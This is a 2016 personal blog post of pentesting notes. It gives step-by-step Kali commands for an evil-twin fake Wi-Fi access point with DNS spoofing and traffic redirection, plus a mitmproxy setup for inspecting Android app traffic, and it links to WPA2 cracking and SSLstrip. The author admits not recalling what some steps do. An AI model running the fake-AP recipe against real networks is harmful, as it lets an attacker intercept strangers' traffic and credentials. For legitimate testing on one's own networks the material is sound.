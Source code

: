 Title: Hacking
Date: 2016-01-18 23:00
Category: Linux
Tags: hacking, kali, security, android, mitm, linux
Slug: hacking
Authors: Romain Pellerin
Summary: A handful of useful commands about hacking

This brief article solely contains a few lines of commands, to perform pentesting or network monitoring. It's basically something I might use in the future on my networks or apps, so I'm writing it down as a reminder. I thought it may help other people that's why I decided to put it online. Of course the preferred operating system is [Kali](https://www.kali.org/) (or any Debian-based distro).

**WARNING: only for use on your own networks and devices, the law strictly forbids it otherwise.**

# Fake AP (access point)

This technique is about creating a fake access point, similar to one already existing, so that people's computers will try to connect to your fake AP automatically, without them noticing.

1. Deactivate any firewall first
2. Get super user rights

        :::bash
        sudo su

3. Install some required packages if not already present

        :::bash
        aptitude install dnsmasq aircrack-ng

4. List the existing network interfaces and turn one of them into monitor mode

        :::bash
        airmon-ng
        airmon-ng start wlan0 # wlan0 is usually Wifi

5. Start monitoring available networks around, and make a quick test

        :::bash
        airodump-ng mon0
        aireplay-ng --test mon0 # Test

6. Choose one network and fake it

        :::bash
        airbase-ng --essid 'HG655D-1BFF19' -c 7 -W 1 -Z 2 -v mon0 # Fake WPA AP

7. Enable packet forwarding

        :::bash
        echo 1 > /proc/sys/net/ipv4/ip_forward
        iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
        iptables -t nat -A PREROUTING -p tcp --destination-port 443 -j REDIRECT --to-port 8080

8. Write what follows in `/etc/dnsmasq.conf`:

        :::text
        interface=at0
        dhcp-range=192.168.0.50,192.168.0.150,12h

9. Do some other things for which I can't recall the usefulness right now (but I promise to update the article as soon as I do):

        :::bash
        ifconfig at0 192.168.0.1 up
        dnsmasq # pkill dnsmasq if needed

10. Write what follows in `/tmp/tests.conf` (`<tab>` means you have to hit the tab key):

        :::bash
        192.168.0.1<tab>*

11. Run `dnsspoof`:

        :::bash
        dnsspoof -i wlan0 -f /tmp/tests.conf

12. Finally, start a webserver (Apache or using Python, or whatever)

        :::bash
        python3 -m http.server 8080


And you're good! All the clear traffic will pop up right in front of your eyes. To deal with HTTPS connections, have a look at [SSLstrip](http://www.thoughtcrime.org/software/sslstrip/).

Encountering problems with DNSspoof? [Have a look there.](https://forums.hak5.org/index.php?/topic/29166-dnsspoof-problem/)

[More information about faking APs.](http://www.backtrack-linux.org/forums/showthread.php?t=61240)

[Another interesting tutorial ("Kali Linux Evil Wireless Access Point").](https://www.offensive-security.com/kali-linux/kali-linux-evil-wireless-access-point/)

# MITM

This is a commonly used technique to "put yourself" between a target user and an access point, in order to see all the traffic this user might send and receive.

## MITM on Android

On Android, it has the advantage of allowing you to monitor your outcoming traffic, which is useful when debugging your own apps.

1. Grant yourself super user rights and enable packet forwarding on the right interface (here `eth0` which is the Ethernet connection):

        :::bash
        sudo su
        sysctl -w net.ipv4.ip_forward=1
        iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
        iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080

3. Install the required dependencies and mitmproxy:

        :::bash
        apt-get install python-pip python-dev libffi-dev libssl-dev libxml2-dev libxslt1-dev libjpeg8-dev zlib1g-dev
        easy_install mitmproxy

    You can as well [download mitmproxy and install it manually](http://docs.mitmproxy.org/en/stable/install.html#installation-on-ubuntu).


4. Run it:

        :::bash
        mitmproxy -T --no-upstream-cert --host [-p 8080] # -p is optional as 8080 is the default port

    The argument `-T` is for *transparent*. If you don't go for transparent, then the 3 lines about packet forwarding (point 1.) are useless (or maybe not, I can't remember).

5. On your Android device:
    1. Open the current Wifi settings (long-press on the connected network).
        * If you decided to do transparent proxying (see above), set proxy to your computer's IP and port 8080, like: `192.168.1.2:8080`
        * If you decided not to do transparent proxying (see above), don't set the proxy and instead set the IP to be static rather than using DHCP. Then write your computer's IP as the gateway.
    2. Go to the website [mitm.it](mitm.it) and click on the Android icon to install the certificate. If this doesn't work (website unreachable), push the certificate manually from your computer (run the following command from your computer):

            ::bash
            adb push ~/.mitmproxy/mitmproxy-ca-cert.cer /sdcard/Download

Then you'll see the traffic in your terminal going through!

This part has been inspired from [this article](https://medium.com/@rotxed/how-to-debug-http-s-traffic-on-android-7fbe5d2a34).

# Other tools

- [mitmAP - A python program, to create a fake AP, and sniff data](https://github.com/xdavidhu/mitmAP)

# Other related topics

- [How to: Reset user password in Windows 7/8/8.1](http://www.gvrachliotis.net/2013/10/how-to-reset-user-password-in-windows.html)
- [Les dénies de services](https://www.nolimitsecu.fr/les-denis-de-service/)
- [Wifi ouvert – Attention aux faux hotspot ! (+ une démo avec un module Arduino)](http://korben.info/wifi-ouvert-attention-aux-faux-hotspot-demo-module-arduino.html)
- [How I Cracked a Keylogger and Ended Up in Someone's Inbox](https://www.trustwave.com/Resources/SpiderLabs-Blog/How-I-Cracked-a-Keylogger-and-Ended-Up-in-Someone-s-Inbox/)
- [Stalking your Facebook friends on Tinder](https://defaultnamehere.tumblr.com/post/147747146865/stalking-your-facebook-friends-on-tinder)
- [Professionally Evil: This is NOT the Wireless Access Point You are Looking For](https://blog.secureideas.com/2013/05/professionally-evil-this-is-not.html)
- [Phreaklets: Cracking WPA2 Enterprise wireless networks with FreeRADIUS WPE, hostapd and asleap & John the Ripper](http://phreaklets.blogspot.kr/2013/06/cracking-wireless-networks-protected.html?m=1)
- [TP Mobilité et réseaux sans fil : réseau sans fil sécurisé et monitoré + mobilité IPv6](http://www.guiguishow.info/2016/10/12/tp-mobilite-et-reseaux-sans-fil-reseau-sans-fil-securise-et-monitore-mobilite-ipv6/)
- [Learn from your attackers – SSH HoneyPot](https://www.robertputt.co.uk/2016/11/28/learn-from-your-attackers-ssh-honeypot/)

